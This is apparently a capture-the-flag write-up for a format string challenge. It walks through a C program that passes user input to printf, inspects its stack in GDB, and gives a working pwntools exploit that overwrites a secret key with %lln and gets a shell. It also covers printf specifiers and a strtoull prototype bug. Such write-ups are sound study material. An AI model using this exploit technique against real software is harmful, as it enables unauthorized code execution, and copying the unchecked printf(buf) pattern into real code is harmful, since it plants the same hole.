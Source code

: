 This challenge is all about format strings.
If you feel rusty on them you can check out the [revision](#fstring_revision) section bellow,
it gives a brief summary on everything you need to know about them to do the exploit.

Now to the actual challenge, let's take a look at `fsb.c`:
```c
#include <stdio.h>
#include <alloca.h>
#include <fcntl.h>
#include <stdlib.h>
#include <unistd.h>

unsigned long long key;
char buf[100];
char buf2[100];

int fsb(char** argv, char** envp){
	char* args[]={"/bin/sh", 0};
	int i;

	char*** pargv = &argv;
	char*** penvp = &envp;
        char** arg;
        char* c;
        for(arg=argv;*arg;arg++) for(c=*arg; *c;c++) *c='\0';
        for(arg=envp;*arg;arg++) for(c=*arg; *c;c++) *c='\0';
	*pargv=0;
	*penvp=0;

	for(i=0; i<4; i++){
		printf("Give me some format strings(%d)\n", i+1);
		read(0, buf, 100);
		printf(buf);
	}

	printf("Wait a sec...\n");
        sleep(3);

        printf("key : \n");
        read(0, buf2, 100);
        unsigned long long pw = strtoull(buf2, 0, 10);
        if(pw == key){
                printf("Congratz!\n");
                execve(args[0], args, 0);
                return 0;
        }

        printf("Incorrect key \n");
	return 0;
}

int main(int argc, char* argv[], char** envp){

	int fd = open("/dev/urandom", O_RDONLY);
	if( fd==-1 || read(fd, &key, 8) != 8 ){
		printf("Error, tell admin\n");
		return 0;
	}
	close(fd);

	alloca(0x12345 & key);

	fsb(argv, envp); // exploit this format string bug!
	return 0;
}
```
In the `main` function the program reads some random data into the 8-byte `key` variable,
then it [allocates some bytes on the stack](https://www.man7.org/linux/man-pages/man3/alloca.3.html)
and calls `fsb` which is evidently an abbreviation for "format string bug".
The `fsb` function deletes the arguments and environment of the program
then calls `printf` four times with format strings passed to `stdin`
and get's the user shell if they can guess the contents of `key`.

As to how to exploit the format strings I got two ideas:

- Read from `key`.
- Write to `key`.

For either of the approaches to work there has to be a pointer to `key` somewhere on the stack to refer to with a format specifier.
Let's check for that in GDB:
```
❯ readelf -s fsb | grep key
    52: 0804a060     8 OBJECT  GLOBAL DEFAULT   25 key
           ^
           |_____ fetch address of key.
❯ gdb fsb
...
(gdb) b *0x08048759       <---------- break before alloca().
Breakpoint 1 at 0x8048759
(gdb) r
...
Breakpoint 1, 0x08048759 in main ()
(gdb) set $eax = 0        <---------- tamper with eax to make alloca(key & 12345) equivalent to alloca(0).
(gdb) b *0x08048610       <---------- break at call printf(buf) in fsb.
Breakpoint 2 at 0x8048610
(gdb) c
Continuing.
Give me some format strings(1)
whatever man

Breakpoint 2, 0x08048610 in fsb ()
(gdb) x/60x $esp
0xffffcbf0:	0x0804a100	0x0804a100	0x00000064	0x0804828c
0xffffcc00:	0x0804a024	0x0804838c	0x0804823c	0xffffcc74
0xffffcc10:	0xf7d8a500	0x08048870	0x00000000	0x00000000
0xffffcc20:	0xffffce88	0xffffdfe8	0xffffcc40	0xffffcc44
0xffffcc30:	0xffffcc88	0xf7fdbec0	0xffffcc88	0x08048791
0xffffcc40:	0x00000000	0x00000000	0x080487a0	0x0804874e
0xffffcc50:	0x00000003	0x0804a060	0x00000008	0x00000000
...                                  ^
                                     |_____ as you can see address of key is at esp + 100.
```
What may come as a hindrance is that the `key` address could be anywhere given that `alloca` can allocate
up to `0x12345` bytes on the stack.
What we know is it lies at least 100 bytes after `esp`.
We can try finding where it is by sending as input format strings like the following:
```
"%25$p %26$p %27$p ... " - prints [esp + 100], [esp + 104], [esp + 108] ...
```
With a 100 bytes format string we can search for `key` in the range `[esp + 100, esp + 160]`
We could also scan the stack further with consecutive queries but there is really no need to,
the number of bytes `alloca` allocated is `key & 0x12345 = key & 0b10010001101000101` so
the chance that the 5 most significant 1's get zeroed by the `&` is $\frac{1}{2^5} = \frac{1}{32}$,
this is easily bruteforceabe.

Now for the choice between reading and writing, it my seem like the two approaches are identical
but trust me, reading won't work (see [sidenode](#bug)) so just do writing.

Here is the final exploit implementing it all:
```python
from pwn import *

key = b'0x804a060'

while True:
    proc = process('./fsb', env={})

    proc.recvline()

    # get values in range [esp + 100, esp + 160].
    p = ' '.join('%{}$p'.format(i) for i in range(25, 25 + 16))
    proc.sendline(p.encode())
    vals = proc.recvline()

    # check for key address in vals.
    idx = next((i for i, x in enumerate(vals.split(b' ')) if x == key), None)
    if idx is None:
        proc.kill()
        continue

    # overwrite key with 0.
    p = '%{}$lln'.format(25 + idx)
    for i in range(3):
        # it's best to receive or else read() might consume more than a single line.
        proc.recvline()
        proc.sendline(p.encode())
        proc.recvline()

    # send 0 to be compared with key.
    proc.sendline(b'0')

    proc.interactive()
    proc.kill()
    exit(0)
```

```
fsb@pwnable:~$ python /tmp/fsb/script.py
[+] Starting local process './fsb': pid 354254
[*] Stopped process './fsb' (pid 354254)
...
[+] Starting local process './fsb': pid 354274
[*] Switching to interactive mode
Give me some format strings(4)

6$p 0x80483bd 0x1 0xf 0x8049ff4 0x10 0xf7705000 0xf7705000 (nil) 0x3 0xffefa1f0 (nil) (nil) 0xf756a647 0xf7705000
Wait a sec...
key :
Congratz!
$ ls
flag  fsb  fsb.c
$ cat flag
...(flag)...
```

<details id="fstring_revision">
<summary style="font-size: 1.2em;">
Quick revision on format strings
</summary>

Unlike typical C functions `printf` takes variadic number of arguments.
When a format specifier is encountered `printf` assumes that a
corresponding argument is passed at appropriate offset on the stack.
i.e. `printf("%i$p")` would print the `i`-th dword on the stack following the format string pointer.
It's the programmer's responsibility to actually pass that argument.
If they don't they would be reading random junk.
Here is a visualization of how `printf` sees the stack (at function entry):
```
 _____________
|_return_addr_|
|_fstring_ptr_|
|____arg1_____|
|____arg2_____|
|____arg3_____|
|____arg4_____|
|    ....     |
|____arg*_____|
```

As for the format specifiers there are
[plenty](https://www.man7.org/linux/man-pages/man3/printf.3.html)
of them, here are those of significance to us:
```
%p - formats the argument as a pointer
%n - writes the number of characters output by printf so far to the 4-byte cell referenced by the argument.
%lln - same as %n but assumes argument is a long long *
```

An example usage of `%n`:
```
int key = 0;
printf("some chars %n", &key);
assert(key == 11);
```
</details>

<details id="bug">
<summary style="font-size: 1.2em;">
A sidenote about a bug in the binary
</summary>

What if I told you that even if you knew the original `key` either by reading
it from the format strings or via some magic you wouldn't be able to get shell by passing it to the key prompt
(that is `pw == key` would always evaluate to `false`).
The reason for this is that there is actually a discrepancy between the assembly and the C code!

C source:
```c
unsigned long long pw = strtoull(buf2, 0, 10);
if(pw == key){
        printf("Congratz!\n");
        execve(args[0], args, 0);
        return 0;
}
```
Assembly output:
```asm
0x0804865f <+299>:	mov    DWORD PTR [esp+0x8],0xa
0x08048667 <+307>:	mov    DWORD PTR [esp+0x4],0x0
0x0804866f <+315>:	mov    DWORD PTR [esp],0x804a080
0x08048676 <+322>:	call   0x8048460 <strtoull@plt>     ; call strtoull(buf2, 0, 10) result is 8 bites thus stored in eax and edx
0x0804867b <+327>:	mov    edx,eax                      ; discard edx thus half of the result???
0x0804867d <+329>:	sar    edx,0x1f
0x08048680 <+332>:	mov    DWORD PTR [ebp-0x30],eax
0x08048683 <+335>:	mov    DWORD PTR [ebp-0x2c],edx
0x08048686 <+338>:	mov    eax,ds:0x804a060
0x0804868b <+343>:	mov    edx,DWORD PTR ds:0x804a064
0x08048691 <+349>:	mov    ecx,edx
0x08048693 <+351>:	xor    ecx,DWORD PTR [ebp-0x2c]
0x08048696 <+354>:	xor    eax,DWORD PTR [ebp-0x30]
0x08048699 <+357>:	or     eax,ecx
0x0804869b <+359>:	test   eax,eax
0x0804869d <+361>:	jne    0x80486cc <fsb+408>          ; bad branch
```
While in the C snippet the result of `strtoull` is an 8-byte integer
in assembly it is treated as a 4-byte integer and being cast (via sign extension) to an 8-byte integer.
My best guess as to why that happens is that somehow during compilation of the translation unit
a wrong prototype was used for `strtoull` like so:
```c
#include <stdio.h>
// erroneous! should be unsigned long long strtoull(...)
int strtoull(char *c, char**p, int base);

int main() {
	printf("%llx", strtoull("0xdeadbeefaabbccdd", 0, 16));
}
```
The above code prints `aabbccdd` when dynamically linked with `libc`.
</details>


